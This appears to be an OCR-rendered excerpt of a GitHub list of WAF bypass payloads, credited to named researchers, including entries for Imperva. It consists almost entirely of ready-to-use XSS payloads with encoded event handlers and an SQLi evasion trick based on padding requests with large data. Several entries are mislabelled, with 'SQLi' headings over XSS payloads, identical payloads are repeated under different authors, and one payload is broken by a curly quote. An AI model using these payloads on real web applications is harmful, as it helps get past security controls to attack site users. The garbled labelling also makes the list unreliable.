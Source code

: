 SQLi Bypass by @Georgi Geshev (v2.2)

```
http://<domain>/path?var1=vardata1&var2=vardata2&pad=<large arbitrary data>
```

SQLi Bypass by @SQLMap Devs (v2.2)

```
<table background="javascript:alert(1)"></table>"/><marquee onfinish=confirm(123)>a</marquee>
```

SQLi Bypass by @HackPlayers (v2.2)

```
<table background="javascript:alert(1)"></table>"/><marquee onfinish=confirm(123)>a</marquee>
```

### **Imperva**

Imperva SecureSphere 13 - Remote Command Execution by @rsp3ar

XSS Bypass by @David Y

```
<body style="height:1000px" onwheel="[DATA]"><div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[DATA]"><body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)"><div contextmenu="xss">Right-Click Here<menu id="xss" onshow="prom%25%32%33%25%32%36x70;t(1)">
```

XSS Bypass by @Emad Shanab

```
<body style="height:1000px" onwheel="[DATA]"><div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[DATA]"><body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)"><div contextmenu="xss">Right-Click Here<menu id="xss" onshow="prom%25%32%33%25%32%36x70;t(1)">
```

XSS Bypass by @WAFNinja

```
<body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)"><div contextmenu="xss">Right-Click Here<menu id="xss"onshow="prom%25%32%33%25%32%36x70;t(1)“>
```

XSS Bypass by @i_bo0om

```
<body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)"><div contextmenu="xss">Right-Click Here<menu id="xss"onshow="prom%25%32%33%25%32%36x70;t(1)“>
```

XSS Bypass by @c0d3g33k

```
https://host/dms/policy/rep_request.php?report_type=%22%3E%3Cbody+onload=alert(%26quot%3BXSS%26quot%3B)%3E%3Cfoo+
```

SQLi Bypass by @DRK1WI

```
https://host/dms/policy/rep_request.php?report_type=%22%3E%3Cbody+onload=alert(%26quot%3BXSS%26quot%3B)%3E%3Cfoo+
```
